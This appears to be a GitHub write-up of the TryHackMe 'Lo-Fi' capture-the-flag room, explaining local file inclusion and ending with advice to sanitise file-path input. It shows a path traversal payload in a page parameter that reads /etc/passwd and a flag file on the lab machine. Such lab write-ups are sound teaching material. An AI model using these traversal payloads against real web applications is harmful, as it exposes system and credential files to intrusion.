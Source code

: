 # Lo-Fi

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/5de96d9ca744773ea7ef8c00-1737110160739" width="200">
</p>

> *Want to hear some lo-fi beats, to relax or study to? We've got you covered!*

<br>

## 🧠 Intro
Welcome to **Lo-Fi**, where we’ll be exploring **Local File Inclusion (LFI)**. This vulnerability happens when an application allows users to include files on the server through the browser — usually due to unsafe handling of URL parameters.  

*Get into the Lo-Fi vibe and deploy your machine!* 🎧

<br>

## 🎯 Task
To pwn this room, we need to:

- Capture the **flag**.  
  
*Let’s see what we can uncover.* 🔍

<br> 

## 🔍 Recon
We start off by visiting the machine’s IP in the browser:

> http://MACHINE_IP

![Lo-Fi_1](src/Lo-Fi_1.png)

We’re greeted with a chill video page and some categories on the side. Out of curiosity, we click on one — `sleep`.

That takes us to:

> http://MACHINE_IP/?page=sleep.php

![Lo-Fi_2](src/Lo-Fi_2.png)

Hmm. That URL looks interesting. `page=sleep.php`? Looks like the server is including files based on that parameter. 🤔

So... what if we try something like:

> http://MACHINE_IP/?page=/home

![Lo-Fi_3](src/Lo-Fi_3.png)

Bingo. We get a message telling us to stop hacking.

*Sorry, that’s not gonna happen.* 😎

<br>

## 🧪 Exploitation (LFI)
Time to test a classic LFI payload:

> `../../../../etc/passwd`

So we go to:

> http://MACHINE_IP/?page=../../../../etc/passwd

![Lo-Fi_4](src/Lo-Fi_4.png)

Boom! We get the contents of `/etc/passwd` on the page. That's a confirmed LFI vulnerability.

Let’s look for our flag. Common sense says it might be in the root directory:

> http://MACHINE_IP/?page=../../../../flag.txt

![Lo-Fi_5](src/Lo-Fi_5.png)

And there it is!

<br>

## 🏁 Got the Flag
On the root directory, we find the flag.

```
flag{go_get_it}
```

*Easy, breezy, breech-y.* 😌  
 
<br>

## 📝 Notes
This room shows how a seemingly harmless parameter can be a serious entry point. If you allow file paths to be loaded from user input, make sure to sanitize and restrict that input.

<br>

## 🏠 Room Info
- 🧩 [TryHackMe - Lo-Fi](https://tryhackme.com/room/lofi)
- 🏷️ Difficulty: Easy
- 🧠 Focus: LFI (Local File Inclusion)
